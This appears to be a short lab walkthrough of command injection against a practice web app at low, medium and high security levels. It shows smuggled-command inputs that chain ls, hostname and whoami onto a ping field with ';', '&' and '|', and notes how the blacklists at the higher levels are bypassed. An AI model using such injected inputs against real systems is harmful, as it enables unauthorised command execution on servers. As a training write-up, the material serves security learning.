










# 1. Command Injection -> Low Security Level

```
For More information ->
```


## I wanna check with ;ls
```bash
┌──(robert㉿kali)-[~]
└─$ ping 127.0.0.2; ls       
PING 127.0.0.2 (127.0.0.2) 56(84) bytes of data.
64 bytes from 127.0.0.2: icmp_seq=1 ttl=64 time=0.170 ms
64 bytes from 127.0.0.2: icmp_seq=2 ttl=64 time=0.068 ms
64 bytes from 127.0.0.2: icmp_seq=3 ttl=64 time=0.079 ms
64 bytes from 127.0.0.2: icmp_seq=4 ttl=64 time=0.075 ms
64 bytes from 127.0.0.2: icmp_seq=5 ttl=64 time=0.069 ms
64 bytes from 127.0.0.2: icmp_seq=6 ttl=64 time=0.062 ms
^C
--- 127.0.0.2 ping statistics ---
6 packets transmitted, 6 received, 0% packet loss, time 5105ms
rtt min/avg/max/mdev = 0.062/0.087/0.170/0.037 ms
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
```
Here we go


So this was the low level 


# 2. Command Injection -> Medium Security Level
``` bash
With ;ls don't get any output so has to change the flow
Can see that ";" "&" will be replaced with " "
```
Source Code for medium lvl 

``` bash
Solution -> ping 127.0.0.2 &ls
```



``` bash
ping 127.0.0.2 & ls & hostname & whoami -> useful command
```


# 3. Command Injection -> High Security Level

>The blacklist is bigger and bigger 

>Function trim() which removes all the spaces was a good hint, just put them together
``` bash
ping 127.0.0.2|ls
```
